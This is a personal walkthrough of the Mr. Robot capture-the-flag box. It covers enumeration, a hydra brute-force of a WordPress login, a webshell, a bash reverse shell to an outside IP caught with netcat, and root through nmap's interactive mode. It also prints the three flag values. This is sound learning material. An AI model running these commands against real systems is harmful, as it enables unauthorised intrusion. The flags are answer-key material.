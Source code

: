 ```yaml
---
title: Vulnhub/TryHackMe Mr. Robot
date: 2022-06-24 12:00:00 -0700
categories: [ctf,tryhackme]
tags: [hacking,writeup,linux,web] # TAG names should always be lowercase
---
```


# Mr. Robot - vulnhub
---

## Flag 1
---
As always I start with nmap and gobuster.
```bash
nmap -sC -sV -oN nmap/initial $IP

gobuster dir -u http://$IP -w wordlist.txt -x .cgi,.txt,.php,.html,.py,.sh,.jpg,.png -t 200
```
by enumerating the website and going to 
```html
http://<box ip>/robot.
```
it shows that their is a file 
called 'key-1-of-3.txt'. if you browse to it
you will be given the first flag

073403c8a58a1f80d943455fb30724b9


## Flag 2
---
This one was complicated for me.
So after finding the first flag in /robots their was also a file called fsocity.dic. 
I pulled that file with curl and then sorted it out with sort and filtered it down using uniq to bring down the amount of repeats in the dictionary.
```bash
curl -o fsocity.dic http://$IP/fsocity.dic
```
```bash
sort fsocity.dic | uniq
```
You can also just do 
```bash
sort -u fsocity.dic
```
I then went to the /wp-login found when enumerating and used hydra to enumerate the logon process with the username being elliot.
```bash
hydra -l elliot -P wordlist.txt $IP
```
I found the username by guesswork but could be found with hydra as well using the fsocity.dic that we sorted out. 

After finding the password for the account elliot, we see that it is an admin account. Ngl I was stumped for a minute trying to find out how to exploit wordpress. 
I went down multiple rabbit holes like : 
exploiting xmlrpc.php, or trying LFI's and other related CVE's. 
I then conceited and peeked at a writeup and saw a few different ways people progressed. 
Trying to get a hold of a shell was a pain. Some of the methods just did not work. I tried adding a php reverse shell via templates. both making my own and editing the 404 template didn't work. then I ultimately found out I can use a plugin to access a webshell (which I now learned is very tedious to use. might make a tool to interface with it:) 
After gaining access through the plugin and navigating to it. I learned I can move throughout directories and that i can execute commands.
I used a bash reverse shell and caught it with netcat. 
```bash
bash -i >& /dev/tcp/10.10.10.10/8080 0>&1
nc -lnvvp 8080
```
I then searched for different files and saw the flag. however I could not read it. I would need to be a different user to access it. 
In the same directory as the flag was a password that was an md5 hash of the password of a user robot. 
I cracked the hash using john the ripper and tried to log in as the robot user, however I needed to be in an actual terminal so I stabilized the shell with python
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
and logged in as robot. then I read the flag file.

822c73956184f694993bede3eb39f959


## Flag 3
---
Now that we have access to the system lets try and escalate to root.

To do so lets enumerate the system. 
Now i did this by hand butIi also could have imported linpeas or linenum to do this for me. I tried: 
```bash
sudo -l
ps aux
find / -perm 4000 -exec root
```
nothing, I then started researching and noticed others add a "w" to the ps aux I did before.
So I tried it and saw a few processes running and noticed nmap. I then went to gtfobins and tried --interactive and !su. IM ROOT!!! Now I navigated to /root and saw the 3rd flag. cat it out and bam. 

04787ddef27c3dee1ee161b21670b4e4


and so concludes the mr robot ctf from vulnhub! I had done this before I knew it was also ported to TryHackMe and it was the same for their too




